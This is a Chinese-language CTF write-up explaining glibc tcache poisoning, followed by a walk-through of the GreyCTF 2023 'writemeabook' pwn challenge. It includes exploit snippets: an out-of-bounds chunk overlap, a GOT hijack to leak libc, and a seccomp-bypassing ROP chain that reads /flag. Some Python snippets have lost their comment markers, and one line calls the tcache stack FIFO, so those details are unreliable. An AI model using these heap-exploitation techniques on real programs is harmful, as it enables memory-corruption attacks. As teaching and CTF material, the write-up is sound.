










 一文带你理解tcache缓存投毒


文章首发于 [https://xz.aliyun.com/t/12600](https://xz.aliyun.com/t/12600)
 tcache 结构分析

Tcache（Thread Cache）是 glibc（GNU C Library）从 2.26 版本开始引入的一个特性，旨在提升内存分配性能。在 tcache 中，每个线程都有自己的缓存，可以减少线程间的互斥和锁的竞争。

默认情况下，大小小于等于 1032（0x408）字节的 chunk 会被放入 tcache 中。

分配释放：当程序进行 malloc 操作时，会优先检查 tcache 是否有可用的 chunk，如果有，就直接返回。同样，当进行 free 操作时，如果 chunk 的大小符合要求，并且对应的 tcache bin 还未满（默认每个 bin 可以存放 7 个 chunk），就会把 chunk 放入 tcache。否则，会按照原来的流程，放入 unsorted bin 或者其他的 bin 中。

数据结构：Tcache 的数据结构主要是一个数组，每个元素都是一个单向链表的头节点。数组的下标对应了 chunk 的大小，即第 i 个元素对应了大小为 `(i+1)*16` 的 chunk 的链表。链表中的每个节点都是一个空闲的 chunk，节点的第一个字段存放了指向下一个节点的指针。

tcache在内存中的数据结构示意图如下：

```c
+----+    +------+     +------+
| 0  | -> | chunk| --> | chunk| --> NULL
+----+    +------+     +------+
| 1  | -> NULL
+----+ 
| 2  | -> | chunk| --> NULL
+----+    +------+
| .. | 
+----+
| n  | -> | chunk| --> | chunk| --> | chunk| --> NULL
+----+    +------+     +------+     +------+
```


 了解 tcache poisoning 

我们先来看看缓存投毒的基本攻击思路，核心代码如下：

```c
size_t stack_var; // 目标投毒的地址

intptr_t *a = malloc(128); // addr: 0x5555555592a0
intptr_t *b = malloc(128); // addr: 0x555555559330

free(a);
free(b);

b[0] = (intptr_t)&stack_var;  // tcache poisoning ！

intptr_t *c = malloc(128);

assert((long)&stack_var == (long)c); // 此时我们已经获得了针对栈地址 &stack_var 读写控制权
```

然后我们来分过程看每一个环节的堆内存布局变化

1. 连续申请两个 chunk，再释放，此时释放的chunk进入到tcache管理起来

```c
intptr_t *a = malloc(128); // addr: 0x5555555592a0
intptr_t *b = malloc(128); // addr: 0x555555559330

free(a);
free(b);
```

**查看此时的堆内存布局**

tcache链表有点像一个栈，遵循LIFO的原则

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x5555555593b0 (size : 0x20c50) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x90)   tcache_entry[7](2): 0x555555559330 --> 0x5555555592a0 // 后面解释tcache_entry结构体
```


2. 根据上文提到的内存布局，相同大小的`tcache` 通过链表维护起来。修改指针指向（后面会分析），使得tcache链表的指针指向栈上的地址

```c
size_t stack_var; // addr: 0x7fffffffe508
b[0] = (intptr_t)&stack_var; 
```


此时我们观察到 `tcache_entry[7]` 的指向

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x5555555593b0 (size : 0x20c50) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x90)   tcache_entry[7](2): 0x555555559330 --> 0x7fffffffe508 --> 0x555555555410 (overlap chunk with 0x555555559320(freed) )
```


3. 申请一次tcache分配，此时获得是之前释放的b chunk

此时的tcache已经被

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x5555555593b0 (size : 0x20c50) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x90)   tcache_entry[7](1): 0x7fffffffe508 --> 0x555555555410 (overlap chunk with 0x7fffffffe4f8(freed) )
```


4. 第二次申请tcache 分配，本来这里是获得之前的a chunk的，但是由于 `tcache` 的指向已经发生了变化，导致我们可以获得一次针对栈上的地址进行读写的机会


若要细究其原理，得从glibc中对应的源码入手：


 从源码层面分析 tcache 


tache的数据结构如下：

```c
/* We overlay this structure on the user-data portion of a chunk when the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;

/* There is one of these for each thread, which contains the per-thread cache (hence "tcache_perthread_struct").  Keeping overall size low is mildly important.  Note that COUNTS and ENTRIES are redundant (we could have just counted the linked list each time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

static __thread tcache_perthread_struct *tcache = NULL;
```


`tcache_entry` 结构体本质上是一个单链表指针，`tcache_perthread_struct` 存储了所有的 `tcache` 入口，通过 `counts` 记录每个 `tcache` 链的个数


`tcache poisoning` 漏洞涉及到两个函数：
- 分配函数 `tcache_get`
	- 找到对应的 `tcache_entry` 表项
	- 取出链表的头节点返回
- 回收函数 `tcache_put`
	- 将chunk强制转为 `tcache_entry`结构
	- 头插法将其插入到对应的 `tcache_entry` 表项中
本质上是用链表实现了一个栈结构，FIFO

```c
static void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tc_idx < TCACHE_MAX_BINS);
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]); // 对应的tcache数量减少1
  return (void *) e;
}
```


```c
static void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
  assert (tc_idx < TCACHE_MAX_BINS);
  e->next = tcache->entries[tc_idx]; // 通过头插法插入新的chunk
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

```


重点是这行代码：

```c
tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
```

`chunk2mem` 的宏是这样的，即将chunk指针往后移动指向用户数据区域

```c
/* Convert a chunk address to a user mem pointer without correcting
   the tag.  */
define chunk2mem(p) ((void*)((char*)(p) + CHUNK_HDR_SZ))
```

而关键在于， 代码中直接强制转化，将其转为 `tcache_entry ` 结构，这代表着，用户数据的前8个字节（64位）存储了 `tcache` 的 next 指针

这就意味着我们可以直接修改 next 指针，从而获得任意地址写的机会，因此 `tcache` 的利用相比 `fastbin` 事实上更加简单了


 例题分析

题目源码和 exp 可以在这里找到 [https://github.com/ret2school/ctf/tree/master/2023/greyctf/pwn/writemeabook](https://github.com/ret2school/ctf/tree/master/2023/greyctf/pwn/writemeabook)
 main函数

main函数主要功能：

1. 输入作者签名
2. 调用`secure_library` 设置 `seccomp`
3. `write_book`程序主要功能


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup(argc, argv, envp);
  puts("Welcome to the library of hopes and dreams!");
  puts("\nWe heard about your journey...");
  puts("and we want you to share about your experiences!");
  puts("\nWhat would you like your author signature to be?");
  printf("> ");
  LODWORD(author_signature) = ' yb';
  __isoc99_scanf("%12s", (char *)&author_signature + 3);
  puts("\nGreat! We would like you to write no more than 10 books :)");
  puts("Please feel at home.");
  secure_library();
  write_books();
  return puts("Goodbye!");
}
```


 `write_books` 

`write_books` 函数，功能总结为：

- 1337 能泄露出一次给定分配块的地址
- 1 新增一本书
- 2 编辑一本书
- 3 删除一本书

```c
unsigned __int64 write_books()
{
  int choice; // [rsp+0h] [rbp-10h] BYREF
  int fav_num; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu();
      __isoc99_scanf("%d", &choice);
      getchar();
      if ( choice != 1337 )
        break;
      if ( !secret_msg )
      {
        printf("What is your favourite number? ");
        __isoc99_scanf("%d", &fav_num);
        if ( fav_num > 0 && fav_num <= 10 && slot[2 * fav_num - 2] )
          printf("You found a secret message: %p\n", slot[2 * fav_num - 2]);
        secret_msg = 1;
      }
LABEL_19:
      puts("Invalid choice.");
    }
    if ( choice > 1337 )
      goto LABEL_19;
    if ( choice == 4 )
      return v3 - __readfsqword(0x28u);
    if ( choice > 4 )
      goto LABEL_19;
    switch ( choice )
    {
      case 3:
        throw_book();
        break;
      case 1:
        write_book();
        break;
      case 2:
        rewrite_book();
        break;
      default:
        goto LABEL_19;
    }
  }
}
```


  `write_book`

向书架中插入一本书，并且在书的尾部，写上作者签名和一个 `magic number` 

可以看到一个书chunk的大小为输入的内容 + 0x10，并且会存储在 book 结构体中的size字段


```c
unsigned __int64 write_book()
{
  int idx2; // ebx
  _QWORD *v1; // rcx
  __int64 v2; // rdx
  int idx; // [rsp+4h] [rbp-4Ch] BYREF
  size_t size; // [rsp+8h] [rbp-48h]
  char buf[32]; // [rsp+10h] [rbp-40h] BYREF
  char v7; // [rsp+30h] [rbp-20h]
  unsigned __int64 v8; // [rsp+38h] [rbp-18h]

  v8 = __readfsqword(0x28u);
  puts("\nAt which index of the shelf would you like to insert your book?");
  printf("Index: ");
  __isoc99_scanf("%d", &idx);
  getchar();
  if ( idx <= 0 || idx > 10 || slot[2 * idx - 2] )
  {
    puts("Invaid slot!");
  }
  else
  {
    --idx; // 书架的编号
    memset(buf, 0, sizeof(buf));
    v7 = 0;
    puts("Write me a book no more than 32 characters long!");
    size = read(0, buf, 0x20uLL) + 0x10; // 读入0x20个字节的内容,还要加上尾部填充的0x10字节
    idx2 = idx;
    slot[2 * idx2] = malloc(size);
    memcpy(slot[2 * idx], buf, size - 0x10);
    v1 = (char *)slot[2 * idx] + size - 0x10; // 指向用户数据的尾部
    v2 = qword_4040D8;
    *v1 = *(_QWORD *)author_signature; // 写入作者签名和一个magic number
    v1[1] = v2;
    books[idx].size = size; // 这里存在问题，后续通过 books[idx].size 获取大小的时候要减掉0x10
    puts("Your book has been published!\n");
  }
  return v8 - __readfsqword(0x28u);
}
```


 `rewrite_book` 漏洞点

编辑一本书，但是注意到这里能够输入的内容为 `books[idx].size` ,而这就意味着我们可以多输入 0x10 的内容（oob，即out-of-bounds）来实现 chunk overlap（因为上文分析道用户数据的长度事实上只有 `books[idx].size - 0x10`

```c
unsigned __int64 rewrite_book()
{
  _QWORD *v0; // rcx
  __int64 v1; // rdx
  int idx; // [rsp+Ch] [rbp-14h] BYREF
  ssize_t v4; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("\nAt which index of the shelf would you like to rewrite your book?");
  printf("Index: ");
  __isoc99_scanf("%d", &idx);
  getchar();
  if ( idx > 0 && idx <= 10 && slot[2 * idx - 2] )
  {
    --idx;
    puts("Write me the new contents of your book that is no longer than what it was before.");
    v4 = read(0, slot[2 * idx], books[idx].size); // 从标准输入读取books[idx].size个字节到slot[2*idx]中
    v0 = (__int64 *)((char *)slot[2 * idx]->buf + v4);
    v1 = qword_4040D8;
    *v0 = author_signature;
    v0[1] = v1;
    puts("Your book has been rewritten!\n");
  }
  else
  {
    puts("Invaid slot!");
  }
  return v5 - __readfsqword(0x28u);
}
```


 `throw_book`

删除一本书，调用 `free` 函数

```c
unsigned __int64 throw_book()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("\nAt which index of the shelf would you like to throw your book?");
  printf("Index: ");
  __isoc99_scanf("%d", &v1);
  getchar();
  if ( v1 > 0 && v1 <= 10 && slot[2 * v1 - 2] )
  {
    free(slot[2 * --v1]);
    slot[2 * v1] = 0LL;
    puts("Your book has been thrown!\n");
  }
  else
  {
    puts("Invaid slot!");
  }
  return v2 - __readfsqword(0x28u);
```


 解题思路分析

题目存在很明显的漏洞点，即利用oob可以实现overlap

 利用 `tcache poisoning`

来计算下我们要怎么做到 `tcache poisioning`

1. 首先必须要两个 tcache，参照前面的示例（需要有一个tcache来修改指针指向）
2. 其次，我们不能直接改 chunk 指针（前面的示例是在源码呢所以可以直接改），所以还需要一个快来通过overlap来修改指针
3. 最后，为了达到 overlap 的目的，前面还需要一个块，通过oob溢出来实现overlap


 malloc chunk

连续申请4个chunk，4个chunk的目的分别为：
1. chunk1 泄露heap base addr + oob覆盖chunk2
2. chunk2 修改 chunk3的next指针，实现 `tcache poisoning`
3. chunk3 通过next指针获得一段可写的内存
4. chunk4 用作 0x40 tcache的填充



 chunk1 oob to overlap

1. 修改chunk1，oob修改chunk2的大小
2. 释放chunk4，填充到0x40 tcache
3. chunk2的大小被修改为0x40，和 chunk3 实现overlap
4. 修改chunk2的内容，覆盖chunk3 的next指针




 泄漏libc base

books结构体的地址是固定的，地址为 `0x4040e0` ，每个 book 结构体前 0x8 个字节存储这本书的 size ，另外 0x8 字节存储这本书在 chunk 地址




当我们获得任意地址写的时候，就可以针对 `0x4040e0` 这个堆块去写入内容，再利用 `rewrite_book` 来实现劫持got表泄露 `libc base addr` 

我们写入的内容为：

```python
    edit(1, pwn.flat([
             1==
            0xff,  sz
            exe.sym.stdout,  target
             2==
            0x8,  sz
            exe.got.free,  target
             3==
            0x8,  sz
            exe.sym.secret_msg,  target
             4==
            0xff,  sz
            exe.sym.books  target
        ] + [0] * 0x60, filler = b"\x00"))
```

观察内存布局：

```c
pwndbg> x/40gx 0x4040e0
0x4040e0 <books>:       0x00000000000000ff      0x00000000004040a0
0x4040f0 <books+16>:    0x0000000000000008      0x0000000000404018
0x404100 <books+32>:    0x0000000000000008      0x00000000004040c0
0x404110 <books+48>:    0x00000000000000ff      0x00000000004040e0
0x404120 <books+64>:    0x0000000000000000      0x0000000000000000
0x404130 <books+80>:    0x0000000000000000      0x0000000000000000
0x404140 <books+96>:    0x0000000000000000      0x0000000000000000
0x404150 <books+112>:   0x0000000000000000      0x0000000000000000
0x404160 <books+128>:   0x0000000000000000      0x0000000000000000
0x404170 <books+144>:   0x0000000000000000      0x0000000000000000
```


此时我们就可以理解为
- 第一本书的内存地址为 `0x4040a0`（实际上这个为 stdout 的got表） size 为 `0xff`
- 第二本书的内存地址为 `0x404018`（实际上这个为 free 的got表） size 为 `0xff`
- 第三本书的内存地址为 `0x4040c0` (实际上为  `secret_msg` 的地址)，size 为 `0x8`
- 第四本书的内存地址为 `0x4040e0` （实际上我 `sym.books` 的地址，方便我们二次写入，size 为 `0xff`

于是可以劫持free的got表来实现打印 `stdout@got` 表项，再通过确定的偏移泄露出 `libc base addr`

```python
     free@got => puts
    edit(2, b"".join([
            pwn.p64(exe.sym.puts)
        ]))
```




 ROP绕过seccomp

程序有 `seccomp` 保护，只允许 `read` 、 `write` 、 `open` 和 `exit` 

于是我们需要通过向栈上写入ROP的方式来读flag，首先计算栈帧

泄露环境变量地址来计算栈帧（注意第4本书我们之前设置了指向自身，因此可以反复编辑）


```python
     leak stack (environ)
    edit(4, pwn.flat([
             1==
            0xff,  sz
            libc.sym.environ  target
        ], filler = b"\x00"))
```

栈帧地址：也就是调用这个函数返回的ret地址




获得栈帧地址后，使用 `pwntools` 自带的 rop 模块来实现

```python
rop = pwn.ROP(libc, base=stackframe_rewrite)

 setup the write to the rewrite stackframe
edit(4, pwn.flat([
         1==
        0xff,  sz
        stackframe_rewrite  target
    ], filler = b"\x00"))

 ROPchain
rop(rax=pwn.constants.SYS_open, rdi=stackframe_rewrite + 0xde + 2, rsi=pwn.constants.O_RDONLY)  open
rop.call(rop.find_gadget(["syscall", "ret"]))
rop(rax=pwn.constants.SYS_read, rdi=3, rsi=heap_leak, rdx=0x100)  file descriptor bf ...
rop.call(rop.find_gadget(["syscall", "ret"]))

rop(rax=pwn.constants.SYS_write, rdi=1, rsi=heap_leak, rdx=0x100)  write
rop.call(rop.find_gadget(["syscall", "ret"]))
rop.exit(0x1337)
rop.raw(b"/flag\x00")
```


 EXP调试

由于堆内存布局的原因，地址可能不一样，这里记录某次调试过程：

 分配4个chunk

Book的结构如下：



4个chunk的布局



 oob

```python
     chunk2 => sz extended
    edit(1, b"K"*0x20)
```

此时的chunk2大小已经被修改了



 tcache poisoning

此时 `tcache3` 的 next 指针已经被修改了




 任意地址写

利用 `tcache poisioning` 修改 books 的结构，布局如下，至此 `tcache poisoning` 的利用就完成了




 参考
[how2heap/tcache\_poisoning.c at master · shellphish/how2heap · GitHub](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/tcache_poisoning.c)


